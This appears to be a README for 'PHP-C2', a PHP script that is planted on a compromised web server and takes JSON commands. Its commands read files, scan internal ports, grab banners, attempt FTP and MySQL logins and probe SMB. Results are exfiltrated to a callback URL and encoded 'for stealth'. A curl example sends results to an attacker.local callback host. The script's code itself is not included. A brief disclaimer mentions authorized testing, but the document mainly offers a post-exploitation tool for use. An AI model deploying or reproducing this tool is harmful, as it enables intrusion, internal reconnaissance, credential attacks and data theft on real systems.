 # PHP-C2

PHP Network Utility Script
This PHP script provides a JSON-controlled HTTP interface for performing a variety of system and network enumeration tasks using built-in PHP functions. It is designed for controlled environments such as penetration testing labs or internal audits.

⚠️ Important: This tool is intended for educational or authorized security testing in controlled environments only. Unauthorized use against systems you do not own or have explicit permission to test is illegal.

Features
File and directory inspection (readfile, scandir)

Port scanning on internal hosts (portscan)

HTTP(S) content fetching (http_get)

DNS resolution and PTR lookup (dns_lookup)

Banner grabbing for FTP and SSH (ftp_banner, ssh_banner)

Basic login attempts for FTP and MySQL (ftp_login, mysql_login)

SMB probe using raw TCP (smb_probe)

GZIP + Base64 encoding for stealth and compression

Usage
1. Upload the Script
Place the script on a PHP-enabled web server (e.g., /var/www/html/util.php).

2. Send a JSON Request
Send a POST request with the required JSON fields:

action: One of the supported operations

target: Hostname, IP, or file path (context-sensitive)

callback: URL to receive the result via POST

Optional fields for some modules:

username, password: Used in ftp_login or mysql_login

directory: Used in ftp_login

Example curl Usage
bash
Copy
Edit
curl -X POST http://victim.local/util.php \
  -H "Content-Type: application/json" \
  -d '{
    "action": "http_get",
    "target": "https://internal.service.local",
    "callback": "http://attacker.local:8000/callback"
}'
Your callback URL must be an endpoint capable of receiving POST data. The script compresses and base64-encodes the JSON response.

Actions Supported
Action	Description
readfile	Read file contents from path in target
scandir	List contents of a directory
portscan	TCP scan of host:port (e.g., 10.0.0.5:22)
http_get	Fetch content over HTTP(S); SSL checks disabled
dns_lookup	Resolve domain or reverse-lookup IP
ftp_banner	Get FTP server banner
ssh_banner	Get SSH server banner
mysql_login	Test MySQL connection (requires username)
ftp_login	Login to FTP and list directory contents
smb_probe	Raw TCP probe to SMB port for basic response

Things to Change or Configure
Callback URL: Your callback server must be reachable by the victim.

Permissions: Script must have access to read requested files and open sockets.

PHP Settings: Ensure allow_url_fopen is enabled, and fsockopen is allowed.

Network Access: Victim system must have internal network access to targets.

Notes
The script avoids spawning shell processes and uses only built-in PHP functions.

Responses are compressed using gzcompress and base64-encoded for stealth and transport safety.

SSL verification is disabled for http_get to bypass self-signed cert errors.

License
This tool is provided "as-is" for legal and educational use. You are responsible for complying with all laws and regulations applicable in your jurisdiction.

